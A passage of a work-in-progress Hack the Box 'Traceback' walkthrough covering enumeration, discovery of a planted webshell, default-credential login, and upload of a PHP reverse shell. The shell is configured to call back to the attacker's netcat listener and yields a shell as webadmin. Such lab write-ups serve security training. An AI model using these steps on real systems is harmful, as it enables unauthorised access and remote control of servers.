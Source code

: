 ## WORK IN PROGRESS

![traceback](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/Traceback/Screenshots/traceback.jpg)

## Enumeration 

Start with a detailed nmap scan:


<div class="text-white bg-blue mb-2">
nmap -sC -sV -Pn -p- 10.10.10.181

Starting Nmap 7.70 ( https://nmap.org ) at 2020-03-14 16:57 EDT
Nmap scan report for 10.10.10.181
Host is up (0.047s latency).
Not shown: 65533 closed ports
PORT   STATE    SERVICE VERSION
22/tcp open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp filtered http
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/$
Nmap done: 1 IP address (1 host up) scanned in 74.85 seconds
</div>


Lets check out the webserver in a browser:
```
http://10.10.10.181/
```
![webserver](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/Traceback/Screenshots/webserver.JPG)

The webserver landing page states there is a backdoor somewhere.  Let's enumerate further with gobuster:

```
gobuster -w /usr/share/wordlists/dirb/common.txt -t 30 -x html,asp,php -u http://10.10.10.181:80 -o gobuster_10.10.10.181_80.txt

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.181:80/
[+] Threads      : 30
[+] Wordlist     : /usr/share/wordlists/dirb/common.txt
[+] Status codes : 200,204,301,302,307,403
[+] Extensions   : asp,php,html
[+] Timeout      : 10s
=====================================================
2020/03/14 17:00:26 Starting gobuster
=====================================================
/.htaccess (Status: 403)
/.htaccess.php (Status: 403)
/.htaccess.html (Status: 403)
/.htaccess.asp (Status: 403)
/.hta (Status: 403)
/.hta.html (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.html (Status: 403)
/.htpasswd.asp (Status: 403)
/.htpasswd.php (Status: 403)
/.hta.asp (Status: 403)
/.hta.php (Status: 403)
/index.html (Status: 200)
/index.html (Status: 200)
/server-status (Status: 403)
=====================================================
2020/03/14 17:00:54 Finished
=====================================================
```

Nothing Interesting here.  Lets try nikto:

```
nikto -h 10.10.10.181:80


- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.181
+ Target Hostname:    10.10.10.181
+ Target Port:        80
+ Start Time:         2020-03-14 17:01:06 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.29 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server may leak inodes via ETags, header found with file /, inode: 459, size: 5911796d5b788, mtime: gzip
+ Apache/2.4.29 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: OPTIONS, HEAD, GET, POST
+ OSVDB-3233: /icons/README: Apache default file found.
+ ERROR: Error limit (20) reached for host, giving up. Last error: error reading HTTP response
+ Scan terminated:  17 error(s) and 7 item(s) reported on remote host
+ End Time:           2020-03-14 17:14:14 (GMT-4) (788 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Again nothing very interesting.  Lets dig into the landing page.  It looks like the page was created by someone with the handle Xh4H.  I did some googling and found the users Github page with a list of webshells he likes to use:

```
https://github.com/Xh4H/Web-Shells
```
![webshells](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/Traceback/Screenshots/webshells.JPG)

I then combined these into a wordlist to be used with gobuster:
```
root@an0nym0us3:~/HTB/Traceback# cat webshell_list 
alfa3.php
alfav3.0.1.php
andela.php
bloodsecv4.php
by.php
c99ud.php
cmd.php
configkillerionkros.php
jspshell.jsp
mini.php
obfuscated-punknopass.php
punk-nopass.php
punkholic.php
r57.php
smevk.php
wso2.8.5.php
```

Now run gobuster against the webserver using the new wordlist:
```
gobuster -w webshell_list -t 30 -x html,asp,php -u http://10.10.10.181:80 -o gobuster_10.10.10.181_80.txt

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.181:80/
[+] Threads      : 30
        [+] Wordlist     : webshell_list
[+] Status codes : 200,204,301,302,307,403
[+] Extensions   : asp,php,html
[+] Timeout      : 10s
=====================================================
2020/03/15 22:31:33 Starting gobuster
=====================================================
/smevk.php (Status: 200)
=====================================================
2020/03/15 22:31:38 Finished
=====================================================
```

Looks like there is a page using one of the web shells.  Lets naviagte to it in the web browser:
```
http://10.10.10.181/smevk.php
```
![smevk](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/Traceback/Screenshots/smevk.JPG)

I tried the credentials admin:admin and was able to login:

![portal](https://github.com/EESantiago/Writeups/blob/master/Hack%20the%20Box/Machines/Traceback/Screenshots/portal.JPG)

Looks like we can upload a reverse php shell to this location.  


Lets upload the [php-reverse-shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) from pentestmonkey to the webserver after we change the ip address and port to our attacking machine:

```
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.15.224';  // CHANGE THIS
$port = 12345;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```

Now that our reverse shell is on the server, let set up a netcat listener to catch a reverse shell:

```
nc -nlvp 12345
```

Now execute the reverse shell using curl:
```
curl http://10.10.10.181/php-reverse-shell.php
```

And we get a reverse shell as the user webadmin:
```
root@an0nym0us3:~/HTB/Traceback# nc -nlvp 12345
listening on [any] 12345 ...
connect to [10.10.14.146] from (UNKNOWN) [10.10.10.181] 40458
Linux traceback 4.15.0-58-generic #64-Ubuntu SMP Tue Aug 6 11:12:41 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 18:01:58 up 2 min,  0 users,  load average: 0.43, 0.24, 0.10
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1000(webadmin) gid=1000(webadmin) groups=1000(webadmin),24(cdrom),30(dip),46(plugdev),111(lpadmin),112(sambashare)
/bin/sh: 0: can't access tty; job control turned off
```
First lets get an interactive bash shell:
```
$ bash -i
bash: cannot set terminal process group (521): Inappropriate ioctl for device
bash: no job control in this shell
webadmin@traceback:/$
```

Lets see what other users are on the machine:
```
webadmin@traceback:/home$ ls -la
ls -la
total 16
drwxr-xr-x  4 root     root     4096 Aug 25  2019 .
drwxr-xr-x 22 root     root     4096 Aug 25  2019 ..
drwxr-x---  5 sysadmin sysadmin 4096 Mar 16 03:53 sysadmin
drwxr-x---  5 webadmin sysadmin 4096 Mar 16 18:03 webadmin
```

Ok now lets see what is our home directory:
```
webadmin@traceback:/home/webadmin$ ls -la
ls -la
total 48
drwxr-x--- 5 webadmin sysadmin 4096 Mar 16 18:03 .
drwxr-xr-x 4 root     root     4096 Aug 25  2019 ..
-rw------- 1 webadmin webadmin  105 Mar 16 04:03 .bash_history
-rw-r--r-- 1 webadmin webadmin  220 Aug 23  2019 .bash_logout
-rw-r--r-- 1 webadmin webadmin 3771 Aug 23  2019 .bashrc
drwx------ 2 webadmin webadmin 4096 Aug 23  2019 .cache
drwxrwxr-x 3 webadmin webadmin 4096 Aug 24  2019 .local
-rw-rw-r-- 1 webadmin webadmin    1 Aug 25  2019 .luvit_history
-rw-r--r-- 1 webadmin webadmin  807 Aug 23  2019 .profile
drwxrwxr-x 2 webadmin webadmin 4096 Feb 27 06:29 .ssh
-rw-rw-r-- 1 sysadmin sysadmin  122 Mar 16 03:53 note.txt
```

No user.txt file.  Look at the note.txt:
```
cat note.txt
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```







